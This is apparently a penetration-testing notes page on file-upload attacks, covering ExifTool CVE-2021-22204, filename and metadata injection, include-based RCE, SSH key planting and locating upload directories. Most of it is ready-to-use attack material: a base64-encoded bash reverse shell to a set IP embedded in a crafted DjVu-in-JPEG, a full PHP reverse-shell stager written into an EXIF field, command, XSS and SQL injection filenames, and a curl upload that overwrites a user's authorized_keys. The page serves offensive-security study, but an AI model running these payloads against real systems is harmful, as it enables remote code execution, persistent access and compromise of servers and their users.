

# Attacks

## ExifTool

[ExifTool](https://exiftool.org/) is a feature-rich command-line application and Perl library designed for reading, writing, and manipulating metadata in a wide range of file formats. It supports images, videos, audio files, documents, and archives, offering extensive coverage of metadata standards such as EXIF, IPTC, XMP, ICC profiles, MakerNotes, and many others. By providing both a flexible command-line interface and programmatic access through its library, ExifTool has become a standard utility in digital forensics, photography, media production, and security research.

The tool operates by parsing embedded metadata structures and presenting them in a human-readable form, while also allowing modification or removal of those fields. It can process multiple files recursively, extract hidden or non-standard metadata, and convert between metadata formats, making it invaluable for both investigative and automation tasks.

### Command Injection

&#x20;ExifTool `≤12.23` is vulnerable to a RCE vulnerability ([CVE-2021-22204](https://nvd.nist.gov/vuln/detail/cve-2021-22204)), caused by unsafe parsing of malicious metadata in **DjVu files disguised as JPEGs**. When ExifTool processes such a file—often automatically in image upload workflows—it can execute arbitrary code embedded in the metadata.

Many CMS platforms and web apps use ExifTool for image handling, making this vulnerability exploitable via unauthenticated file uploads if no proper validation exists. Exploited code runs with the privileges of the calling process, typically the web server. The injection process below is taken from INE's [ExifTool Command Injection (CVE-2021-22204)](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) blog post.&#x20;


```bash
# Encode reverse shell payload to Base64 for safe injection
$ echo 'sh -i >& /dev/tcp/192.168.45.170/443 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK

# Create metadata payload with embedded system call to decode and execute shell
$ cat payload
(metadata "\c${system('echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK|base64 -d|bash')};")

# Compress the payload into bzz format (required by DjVu)
$ bzz payload payload.bzz

# Create malicious DjVu file with injected payload
$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

# Confirm file type is valid DjVu
$ file exploit.djvu
exploit.djvu: DjVu image or single page document

# Define a custom EXIF tag for injecting malicious DjVu file
$ cat config_file
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',  # Custom tag name
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
);
1; # Required line to end the config

# Inject DjVu payload into a JPEG image via the custom EXIF tag
$ exiftool -config config_file '-HasselbladExif<=exploit.djvu' duck.jpg
    1 image files updated
```


## Filename Injection

Filename injection is a vulnerability that allows an attacker to **manipulate the filename parameter during file upload or download operations**. This manipulation can include special characters or directory traversal sequences, such as `../`, enabling access to unintended files or directories on the server. Exploiting filename injection may lead to information disclosure, arbitrary file access, or code execution, depending on how the application handles file paths and user input.

For example, when the uploaded file name is refected on the page and the server moves the file with a command such as `mv <file> /tmp`, then it is possible to achieve RCE:

```bash
# command execution
file$(whoami).jpg
file`whoami`.jpg
file.jpg||whoami
```

Similarly, an XSS or SQLi attack can be performed on the same way:

```bash
# xss
<script>alert(window.origin);</script>
# sql
file';select+sleep(5);--.jpg
```

LFI is also a possibility (the output can be read if the file can be opened/downloaded):

<figure><figcaption></figcaption></figure>

## Metadata Injection

If the web application displays the image's metadata, a payload can be injected in one of the metadata's fields. When the image's metadata is displayed, the payload will be triggered.&#x20;

```bash
# injecting an XSS payload into the Comment field
exiftool -Comment=' ">' image.jpg
```


```bash
# injecting a reverse shell payload into the Document Name field
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```


If the metadata is not directly displayed, chaning the MIME-type to `text/html`, might cause the file to be treated as an HTML document and directly trigger the payload.

## RCE

If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, **regardless of the file extension or type**. The file upload form does not need to be vulnerable, just allowing file uploads.

<table><thead><tr><th width="299">Function</th><th align="center">Read Content</th><th align="center">Execute</th><th align="center">Remote URL</th></tr></thead><tbody><tr><td><strong>PHP</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><code>require()</code>/<code>require_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>NodeJS</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>res.render()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>Java</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>import</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><strong>.NET</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr></tbody></table>

## SSH Keys


```bash
# Generate SSH key pair
$ ssh-keygen -t rsa -f ./id_rsa -N ''
​
# Upload it to the target directory
$ curl -X POST http://<target-IP>/file-upload -H "Content-Type: application/x-pem-file" -F file=@id_rsa.pub -F filename=/home/bob/.ssh/authorized_keys --proxy 127.0.0.1:8080
```


## Uploads Directory

* Check source code after uploading a file.
* Fuzz for an `/uploads` directory, and then for the file itself.
* Forcing error messages that might disclose the uploads directory:
  * Uploading a file that already exists or sending 2 identical requests simultaneously.
  * Uploading a file with a very (very) long name.
